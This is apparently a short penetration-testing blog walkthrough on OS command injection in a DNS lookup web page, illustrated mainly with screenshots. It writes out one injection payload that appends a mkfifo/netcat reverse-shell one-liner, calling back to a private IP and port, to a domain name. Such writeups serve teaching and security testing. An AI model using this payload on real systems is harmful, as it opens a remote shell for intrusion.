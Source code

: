 ```yaml
---
layout: post
title: OS Command Injection
categories:
  - Web-Pentesting
---
```


<br>As you can see this is DNS lookup but, it has OS Command injection vulnerability using which we can execute system command.

![28](https://teckk2.github.io/assets/images/Web%20Pentest/A1/28.png)
![29](https://teckk2.github.io/assets/images/Web%20Pentest/A1/29.png)
![30](https://teckk2.github.io/assets/images/Web%20Pentest/A1/30.png)
<br>We can even get the reverse shell out of it.
![31](https://teckk2.github.io/assets/images/Web%20Pentest/A1/31.png)
<br><font color="Black">www.nsa.gov && rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.140.136 4455 >/tmp/f</font>
![32](https://teckk2.github.io/assets/images/Web%20Pentest/A1/32.png)

<p class="message">
  ~ Hack the World and Stay Noob
</p>

[Twitter](https://twitter.com/Teck__K2) / [Hack The Box](https://www.hackthebox.eu/profile/966) / [CTF Team](https://ctftime.org/team/20102) /
[Teck_N00bs Community Telegram](https://t.me/Teck_N00bs)

<script src="https://www.hackthebox.eu/badge/966"> </script>
